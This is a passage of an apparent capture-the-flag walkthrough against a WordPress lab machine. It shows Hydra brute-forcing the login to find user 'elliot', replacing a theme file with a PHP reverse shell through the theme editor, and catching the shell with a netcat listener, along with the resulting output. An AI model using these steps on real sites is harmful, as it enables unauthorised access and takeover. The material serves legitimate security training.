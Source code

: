 ```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-12 23:14:38
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-form://10.10.83.180:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered
[STATUS] 1745.00 tries/min, 1745 tries in 00:01h, 9707 to do in 00:06h, 30 active
[STATUS] 1136.67 tries/min, 3410 tries in 00:03h, 8042 to do in 00:08h, 30 active
[STATUS] 845.00 tries/min, 5915 tries in 00:07h, 5537 to do in 00:07h, 30 active
[STATUS] 723.67 tries/min, 8684 tries in 00:12h, 2768 to do in 00:04h, 30 active
[80][http-post-form] host: 10.10.83.180   login: elliot   password: *********
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-12 23:31:30
```

Also see: [hydra-usernames.log](hydra-usernames.log) and [hydra-passwords.log](hydra-passwords.log).

## Gaining Access

We can now log into this Wordpress site as "elliot". One way to exploit this access is to navigate to the browser-based file editor for the "archive.php": `/wp-admin/theme-editor.php?file=archive.php` 

Since this is not a heavily used page, you could replace the contents with a [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) remembering to change the IP and port to your workstation. Save your changes. For example, you run `netcat` to listen for the incoming connection on port `9000`:

```bash
# Listen for incoming connections...
nc -lvnp 9000
```

Lastly, navigate to: `/wp-content/themes/twentyfifteen/archive.php` to initiate the reverse shell back to your workstation. You should see something like this in the window that was running `netcat`:

```bash
listening on [any] 9000 ...
connect to [10.6.78.155] from (UNKNOWN) [10.10.83.180] 47920
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 03:39:26 up 27 min,  0 users,  load average: 0.00, 1.05, 2.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

We can slightly upgrade our prompt with:
